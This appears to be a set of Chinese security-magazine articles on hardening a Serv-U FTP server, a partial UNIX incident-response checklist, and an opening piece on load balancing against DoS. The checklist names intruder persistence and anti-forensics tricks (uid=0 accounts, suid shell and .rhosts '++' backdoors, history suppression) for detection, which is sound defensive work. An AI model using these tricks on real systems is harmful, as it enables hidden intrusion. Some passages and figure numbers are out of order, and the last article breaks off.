经过一番检测，我对服务器做了相应的安全加强：包括操作系统的安全、加固、补丁等，以及 FTP 服务软件方面的安全及加固——操作系统的加固现在已经被成打成打的教材说烂了，这里就不再重复了。关于 Serv-U 一些较为基本的配置也已经有人写成教程在网上流传了，我也不想再赘述了。现在只谈对 FTP 服务加固的一些方法及小技巧，希望能给大家带来方便：

### 禁止匿名访问及锁定相关目录

Serv-U 在安装配置的过程中会提示是否允许匿名用户访问 FTP 服务器，默认是允许匿名访问的。从安全角度看，我认为没有这个匿名访问的必要。记得前段时间有朋友就写过一篇利用匿名用户实现攻击的文章，现在都还记忆犹新。所以，我建议不允许匿名访问 FTP 服务器，我们可以建一个指定的账号让其他人进来——在安装的时候选择不允许匿名访问（图 1）。

选择了不允许匿名访问后，Serv-U 会提示新建一个账户，输入新建账户的相关信息及指定访问的文件夹之后，它会提问是否锁定该账户在该文件夹下。默认是不锁定的，如果这个账户及密码只有你一个人知道的话，那问题不大，但如果该账户的密码要公开的话，建议锁定，因为目录一旦被跳出，资料就没有安全性可言了（图 2）。上面这些是我认为在默认安装时存在的不安全问题，其他的在安装时按默认设置就行了。

### 加强对用户账号的管理

上面我们不允许匿名用户，并创建了一个新的账号来访问我们的服务器，但是，我们的 FTP 服务器需要上传、下载数据，如果一个账户既上传又下载，那管理起来非常的麻烦！所以，我们必须有两个账号，一个只允许上传，另一个只允许下载——允许上传数据的账户上传的数据放在一个特定的文件夹中，只有写入的权限，无法下载；而专为下载而设置的账号只有读取数据的权限，没有写入等其他方面的特权，这样的配置安全性就会高得多！

现在，假设我们要给上传的账户新建的账号是 shudong，给下载的用户建的账号是 netff，那么，在 Serv-U 服务器中给它们设置的权限就如图 3、图 4 所示。

在这里提醒各位读者，在给用户设置权限的时候千万不能马虎。特别是给具有上传权限的账户设置权限时更是如此。记住：上传跟下载两个账号访问的文件夹不要是同一个，也不能给具有上传权限的账户读取的权限。否则，你的 FTP 服务器很有可能某一天成为某些人入侵时的中转站。

另外，我还建议那些已有或想建 FTP 服务器的朋友：不要在一台 FTP 服务器上建太多的账号。账号太多了，自己想整理都整理不过来。如果有一天有人进入你的服务器后，在你的 FTP 服务器上建一个具有特权的账户你都不知道，那到时你服务器里面的所有数据就更加危险了。

顺便说一下，Serv-U 在创建第一个账户时给的权限相当大，要注意这个账户是否真的需要这么高的权限。如果确实需要的话，那这个账户的密码越少人知道越好。另外，当我们要给 FTP 服务器新增账户的时候，用户的名称及密码最好不要含有“:”或“@”等特殊符号，否则用 IE 等登录 FTP 服务器时往往会出现一些意想不到的错误。

### 修改 Banner

通过上面的设置，我们可以登录到我们的 FTP 服务器去看看。噢！怎么我还没有登录上去就可以看见我的 FTP 服务器的软件名称及软件的版本号啊（图 5）。

图 5 红线上边显示的是 Serv-U 的 banner，很多软件都有这个特征，那怎么办？我们来隐藏 Serv-U 的 banner。打开 Serv-U 的管理器并来到域（如 ftp.netff.org）下 Settings 下面的 Messages 模块，有没有看到那个 “Server ID text”？它的右边显示的就是 Serv-U 的 banner 的内容（图 6）。

现在我们来修改它的 banner 的显示内容，改成：“Welcome to netff's FTP server”，达到欺骗恶意者的目的，结果如图 7 所示。再按下下面的 “Apply” 按钮即生效。现在我们再连接上去看看，结果如图 8 所示。

怎么样？现在对方想知道我们的 FTP 服务用的是哪个软件及版本号就只好慢慢去猜了。上面的修改只是对当前的域生效，如果你打算再在这台机上新建另一个域的话，新建后的域的 banner 还是显示原来 Serv-U 默认显示的那个。你可以再按上面提到的方法相应改过来就行了。

### 加强对文件夹存取权限的控制

奇怪，文件的存取权限跟 FTP 服务有什么关系？如果你的操作系统驱动器格式是 NTFS 的话，那就有关系；如果是 FAT 或 FAT32 格式的话，那就没有关系了。

在 FTP 服务中，我们除了可以在 FTP 软件中控制用户对文件夹的存取权限之外，还可以利用系统自带的文件存取权限来进行有效控制。或许你觉得我们在上面对 FTP 软件对其所能访问到的文件夹的权限已经设置得很安全的话，那也不能说错。但我认为光靠一个软件做一重防范不如双重防范来得安全。再者，在以后的日常运作中，你或你的同事可能会在 FTP 服务器中增加相应的账号，此时如果在权限方面不加注意的话，那就有可能给别人入侵的机会了！所以，我认为这一步还是必要的。

现在，我们来对 FTP 服务器账户中用户所能够访问到的文件夹做进一步的存取权限控制：我们先来设置上传的那个文件夹的存取权限，假设它就放在 `c:\ftp\up` 文件夹。选定 up 文件夹的属性，来到“安全”选项卡，取消“允许将来自父系的可继承权限传播给该对象”，此时会弹出一个提示对话框，选“复制”按钮，并将 up 文件夹的属性改成跟图 9 一样。

这样修改的结果是：就算我们在 Serv-U 的文件存取的权限方面有设置不当的地方，系统也会对当前用户的存取权限进行相应的限制，进一步加强了对当前文件夹存取等方面的安全性能。当然，认认真真地设置好每一步，注意好每一个环节才是做好安全工作的一个前提。

对被屏蔽的机器来说，整个 IP 段的 FTP 服务还是存在的，只是服务器还没有返回相关的登录信息，使对方一直处于等待服务器返回相关信息的状态，直到超过客户端所能忍受的限定时间而超时自动断开。


图 10

现在我们对 up 文件夹的存取权限设置完了，现在来设置提供下载的 down 文件夹的权限，操作跟上面类似，不过得将 down 文件夹的存取权限属性改成如图 10 一样。

## 对服务器防毒策略

由于我们的服务器具有让其他用户用指定账号上传数据的权限，也由于上传的人可能众多，加之上传的数据也是千奇百怪，这些上传的数据中难免会因为个别别有用心的人传了些带毒的数据上来，给我们的服务器造成了威胁。再说哪天我们不注意将这些带毒的数据放到下载区供其他人下载，那问题可就来了。

我怎么知道他们上传的数据里面有没有带病毒？最方便的办法就是装个防毒软件，并定时对所有上传的数据进行查杀，让防毒的事交给它去处理。在这里我推荐用诺顿企业版的杀毒工具。

诺顿的安装非常简单，就不介绍了。但记得安装完成后一定要启用实时监控及更新一下它的病毒库。现在，我们来设置诺顿定时更新病毒库并且定时对这些上传的数据进行查杀。

先设置定时更新：我们将其设置成每天凌晨的两点自动更新病毒库。设置方法是：“文件”→“调度更新”，这时将打开一个“调度病毒定义更新”的对话框，里面显示诺顿的默认是每星期五 20 点更新。我们更改一下它的默认设置，按“调度”按钮进入设置页面，将其修改成如图 12 所示。以后，诺顿就会在每天的凌晨两点自动连接到诺顿的服务器进行自动更新病毒库了。

如果觉得有必要，我们还可以利用系统自带的审核功能对存放 FTP 服务器数据的文件夹进行审核。一般是审核相应的文件夹存取失败、特权的使用等方面。不过，一般的服务器就用不着审核，这里就不做介绍了。

## 屏蔽好事者的 IP 地址

Serv-U 有一个屏蔽、限制某个 IP 或某段 IP 地址访问本机的 FTP 服务的功能。我们来试着用它屏蔽某个 IP 地址。

如图 11 所示，只要我们按下“Add”按钮再按“Apply”按钮，我们就屏蔽掉了 192.168.0.1 这个 IP 地址访问我们的 FTP 服务器的权限了。如果要屏蔽整个 C 类地址，我们可以用 * 号来替代表示整个 IP 段。


图 11


图 12

设置完自动更新病毒库后，我们来设置诺顿的定时扫描。来到诺顿下面“调度扫描”下的“新建调度扫描”，给要新建的扫描项目起个名称后按“下一步”按钮，这里需要设置开始扫描的时间。一般定在半夜的时候扫描，那时登录到服务器的人肯定很少了，有利于扫描的速度，也不影响上传、下载用户的速度（图13）。


图 13

定完时间之后按“下一步”来选择扫描的位置，选择上传数据的存放位置（图14）。


图 14

如果觉得有必要，还可以利用诺顿的定时扫描功能定时对整个系统进行全面的扫描，在这里就不再做介绍了。

## 让 FTP 服务穿过防火墙

在这个黑客平民化的今天，别说你的 FTP 服务器是公开的，就是那些拨号上网的用户也难免受到攻击。既然无法避免，那我们只好将安全尽量做到位。除了系统安全等方面做好之外，我认为给它加道防火墙还是应该的。再说一台整天放在因特网上的服务器没有一道防火墙保护似乎有点说不过去。

现在可选的软件防火墙非常多。不过你的防火墙安装并启动后，你的 FTP 服务器别人可就进不来了。原来是防火墙将 FTP 服务拦在里面，要让 FTP 服务穿过防火墙其实很简单，因为 FTP 服务一般是开 21 端口，我们只要在防火墙做相应的设置，告诉防火墙：允许所有机器的任何端口访问本机的 21 端口就行了。

以 BlackICE 为例，打开 BlackICE 的“Tools”菜单下的“Advanced Firewall Settings”，在弹出的对话框中按“Add”按钮来添加规则，将其配置成跟图 15 一样。


图 15

完成后按“Add”按钮确认退出就行了。现在可以去试试外面的客户机是否可以进来了。

在这里还要说一下，如果你的 FTP 软件不是 Serv-U，而是微软的 IIS 自带的 FTP 或其他软件，当你配置防火墙后，发现用 CuteFTP 等专用软件连接没有问题，但用 IE 等工具访问时出现提示出错（如无法获取目录），这是 FTP 服务的工作方式（主动/被动模式）所造成的，建议还是使用专用工具。

到此为止，一个由 Serv-U 搭建起来的安全 FTP 服务器就建好了！

## UNIX 应急响应策略
文 / ayazero

### 10）获取重要配置文件

- 检查各配置文件查找后门位置，未授权的信任关系和未授权的用户 ID。
- `/etc/passwd`：查找未授权的用户账号和权限。初级的入侵者会添加 uid=0 的用户，也有人会把原本没有 shell 的普通账户改成可登录获得 shell，然后通过 suid 位的 ksh 等后门获得 root shell。
- `/etc/shadow`：确保每个用户都有密码认证。
- `/etc/groups`：查找权限的升级和访问范围的扩大。
- `/etc/hosts`：列出本地 DNS 条目。
- `/etc/hosts.equiv`：检查信任关系。
- `~/.rhosts`：检查基于用户的信任关系（如 "++" 后门）。
- `/etc/hosts.allow` && `/etc/hosts.deny`：检查 tcpwrapper 的规则。
- `/etc/rc*`：检查启动文件。
- Crontab 文件：列出计划事件。
- `/etc/inetd.conf`：列出端口所监听的服务。

日志文件大多位于公用目录，通常是 `/var/log` 或 `/usr/adm`、`/var/adm`。其中 syslogd 提供强大的日志功能，配置文件为 `/etc/syslog.conf`，通常最有用的日志是 messages、secure、syslog。

TCP wrapper 日志也利用 syslog 记录。Apache 默认日志在 `/usr/local/apache/logs`，最有用的日志是 access_log，此外 ssl_request_log、ssl_engine_log 也能提供攻击前的扫描记录。

登录用户日志：utmp 或 wtmp 文件保存了当前登录用户的信息。Cron 日志记录了定时作业的内容，通常在 `/var/log/cron`。进程记账如果存在 acct 或 pacct 文件，可使用 lastcomm 或 acctcom 命令查看。

```bash
[root@ay4z3ro foo]# less ~/.bash_history
```
如果 `.bash_history` 被链接到 `/dev/null`，或者 `$HISTFILE` 和 `$HISTFILESIZE` 值为 0，那么肯定有人非法活动过。

### 11）转储系统 RAM
主要是从系统转移 `/proc/kmem` 或 `/proc/kcore` 文件，该文件包含系统 RAM 的内容。

### 溯入调查

#### 1．检查系统日志
UNIX 有很多日志，为应急响应提供了重要线索。大多数入侵者都会修改或删除日志，虽然理论上能做到几乎不留痕迹，但在实际中，善后工作是个不小的工程。比如刚得到 root shell 时 unset HISTFILESIZE，退出时忘了复原，就会留下痕迹。日志清除工具是死的，最保险的方法是手工劳动，这加大了入侵者的负担。检查日志对应急响应非常重要。

#### 2．确定突发事件时间
如果有 IDS，确保 IDS 系统时间与受害系统时间一致。检索系统中突发事件前后创建和被改动的文件。

#### 3．恢复被删除的文件和数据
这个过程需要对 Unix/Linux 文件系统体系结构有所了解。TCT（The Coroner's Toolkit）工具包提供了很大便利。TCT 链接地址为 http://www.fish.com/forensics/ 。

#### 4．检查特殊文件
- **SUID 和 SGID 文件**
```bash
[root@ay4z3ro /]# find / -type f \( -perm -04000 -o -perm -02000 \) -exec ls -lg {} \;
```
从中查找不寻常的或被放在奇怪地方的 S 位程序。

- **不常用的和隐藏的文件及目录**
以“.”开头的文件是隐藏的。攻击者常利用“..”或带空格的目录名（如 `... `）欺骗管理员。可以使用如下命令显示非打印字符：
```bash
[root@ay4z3ro foo]# ls -al | cat -tve
```

- **配置文件**
如 Solaris 的 Sadmind RPC 溢出后会在 `/etc/inetd.conf` 添加伪造服务。

- **启动文件**
包括 `/etc/rc*`、cron 文件、用户启动文件（`.bashrc`、`.profile` 等）。

- ** /tmp 目录**
由于权限是 777，攻击者常在此存储中间文件。

#### 6．检查用户帐号和组
检查原本没有 shell 的系统账号是否被赋予了 shell。

#### 7．识别非法进程
确保正在运行的不是 rootkit。可以使用 chkrootkit、tripwire 或 rpm 的 MD5 校验功能。

**后记：** 应急响应是一项复杂工作，应以最小代价实现最大安全目标。加强管理员本身的应急响应技术水平是提高性价比的关键。

---

刘流：新年到了，新来的小编我先给各位亲爱的朋友们拜个早年！希望大家在新的一年里万事如意。从第一期起，我就正式开始负责“专题企划”、“特别专题”、“网络之家”和“安全方案”这几个版块了。小乔原来是个网管，参与过十多个大中型企业网络的整体设计和构建，在网管技术与安全方案方面还是比较有信心的。大家有什么问题可以给我写信（liuliu@hacker.com.cn）。

刚来黑防就听说我们服务器被 DoS 了！我发誓坚决要和发起 DoS 的恶劣之徒斗争到底！所以，本期主打——帮你防范 DoS 攻击的企业级安全方案。



## 利用网络负载平衡对抗 DoS
文／netbug

网络负载平衡（NLB）是 Windows 2000 Advanced Server 和 Data Center 的一部分。有了 NLB，传入的 TCP、UDP 和 GRE 通信请求被分发给各个群集成员。NLB 增强了 Internet 服务器程序（如 Web、FTP、DNS、VPN）的可用性。NLB 可以检测到服务器故障，并将其从集群内删除，重新提供服务，这叫故障切换。

### 深入了解群集
群集就是一组连在一起的计算机，从外部看它是一个系统。例如一个提供 Web 服务的集群，对外界来看是一个大 Web 服务器。


图 1

### 实现群集的方法
1. **网络地址转换（NAT）法**：转换器修改包地址，外界看起来包来自转换器。优点是节省 IP，能伪装内部；缺点是效率相对较低。
2. **直接路由（Direct forwarding）法**：控制机接收请求包后直接送到节点。优点是返回流量不经过控制主机，速度快。
3. **隧道技术（Tunneling）**：用于节点不在同一个网段时的转发。

### 应用案例
下面介绍一个用 TurboLinux Cluster Server 来实现负载均衡集群系统，提供 Web 和 FTP 服务。

配置情况：共有 12 台服务器，11 台安装 TurboLinux Cluster Server，1 台安装 Windows 2000 Server。

1. 设置各台服务器 IP、子网掩码、路由。将一台 TurboLinux 设置成 DNS 服务器（pc1.test.com）。
2. 配置 Cluster Server。执行 `turbolinux clusteradmin`，设置如下：

```text
ClusterServer Configuration → Cluster Services → Application Stability Agents:
  (1) http 为默认服务
  (2) ftp —— /usr/lib/ftpAgent

ClusterServer Configuration → Cluster Services → Service Settings:
  (1) http, 80:TCP, sticky
  (2) ftp, 21:TCP, ftp

ClusterServer Configuration → Servers Configuration:
  (1) pc1 (pc1.test.com), direct, ping
  (2) pc2 (pc2.test.com), direct, ping
  (3) pc3 (pc3.test.com), direct, ping
  (4) pc4 (pc4.test.com), direct, ping

ClusterServer Configuration → Advance Traffic Managers:
  (1) Advance Traffic Manager System：pc1.test.com
  (2) Advance Traffic Manager Setting：默认值

ClusterServer Configuration → Virtual Servers:
  (1) 主机为：pc1.test.com
  (2) sendmail: master@pc1.test.com
```

## (3) Server pool name: ServerGroup1

ClusterServer Configuration → Global Settings

网络设置：netmask 255.255.255.0

